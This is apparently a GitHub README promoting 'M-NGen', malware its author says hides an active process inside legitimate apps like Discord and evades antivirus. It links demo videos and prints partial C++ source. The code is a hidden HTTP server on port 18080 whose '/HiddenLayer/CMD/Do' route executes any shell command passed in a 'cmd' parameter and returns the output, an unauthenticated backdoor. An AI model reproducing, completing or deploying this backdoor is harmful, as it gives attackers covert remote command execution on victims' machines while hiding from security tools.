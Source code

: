 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>

### Discord Get Hacked Hehehe
https://github.com/user-attachments/assets/a97de13d-781f-4c77-9763-14d198786eaf


## Used languages:

1. C++
2. NodeJs
3. C#

## Part Of Code : (It's Note All of The code)

```cpp
// This is A part From The Code 
#include "crow_all.h"
#include <cstdlib>
#include <array>
#include <iostream>
#include <sstream>

// CMD EXEC
std::string Exec(const std::string& command) {
    std::array<char, 128> buffer;
    std::stringstream result;
    
    FILE* pipe = popen(command.c_str(), "r");
    if (!pipe) return "Failed to execute command";

    while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
        result << buffer.data();
    }
    
    pclose(pipe);
    return result.str();
}

// Hidden Layer
int main() {
    crow::HDlayer app;

    CROW_ROUTE(app, "/HiddenLayer/CMD/Do")
        .methods(crow::HTTPMethod::GET)([](const crow::request& req) {
            auto query_params = crow::query_string{req.url_params};
            std::string command = query_params.get("cmd") ? query_params.get("cmd") : "";

            if (command.empty()) {
                return crow::response(400, "Missing 'cmd' parameter");
            }

            std::string output = Exec(command);
            return crow::response(output);
        });

    app.port(18080).multithreaded().run();
}


